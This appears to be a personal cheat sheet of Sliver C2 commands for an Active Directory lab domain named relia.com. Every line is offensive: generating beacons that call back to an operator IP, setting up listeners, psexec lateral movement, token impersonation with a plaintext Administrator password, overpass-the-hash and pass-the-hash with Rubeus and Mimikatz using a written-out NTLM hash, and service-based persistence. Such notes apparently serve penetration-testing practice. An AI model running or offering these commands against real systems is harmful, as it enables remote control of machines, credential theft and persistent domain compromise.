 https://www.cybereason.com/blog/sliver-c2-leveraged-by-many-threat-actors

# Proxy
socks5 start -P 1080

# Beacons
generate beacon --http 192.168.45.235:8181 --format exe --skip-symbols

# Listeners
http -L 192.168.45.235 -l 8080

# Sessions
generate --http 192.168.45.235:8080 --format exe --skip-symbols

# Services
profiles new --format service --skip-symbols --mtls 192.168.45.235 win-svc64
psexec -d Description -s ServiceName -p win-svc64 LOGIN.relia.com
psexec -d Description -s testo -p win-svc64 DC02.relia.com

# Impersonate with credentials
make-token -u Administrator -p vau!XCKjNQBv2$ -d relia.com -T LOGON_INTERACTIVE
impersonate RELIA\\dan
shell

# pivoting (overpass the hash)
rubeus asktgt /user:dan /rc4:4b22394fc907bd7a74d1af6cc9aca348 /domain:relia.com /ptt
profiles new --format service --skip-symbols --mtls 192.168.45.235:8888 win-svc64
psexec -d waytoknow -s updater_svc -p win-svc64 dc02

# persisting
generate beacon --mtls 192.168.45.235:8989 --skip-symbols --format exe --name dc_pers
mtls -L 192.168.45.235 -l 8989
sharpersist -- -t service -c \"C:\\dc_pers.exe\" -n \"LongivityCheck\" -m add
sa-sc-enum
execute sc start LongivityCheck

# impersonating without credentials
mimikatz '"sekurlsa::pth /user:dan /domain:RELIA /ntlm:4b22394fc907bd7a74d1af6cc9aca348 /run:powershell.exe /impersonate"'
mimikatz '"token::elevate /user:dan /domain:RELIA"'
mimikatz '"token::run /user:dan /domain:RELIA /process:C:\Windows\System32\cmd.exe"'

impersonate RELIA\\dan
shell

-- ONE LINER
mimikatz '"sekurlsa::pth /user:dan /domain:RELIA /ntlm:4b22394fc907bd7a74d1af6cc9aca348 /run:powershell.exe /impersonate" "token::elevate /user:dan /domain:RELIA" "token::run /user:dan /domain:RELIA /process:C:\Windows\System32\cmd.exe"'

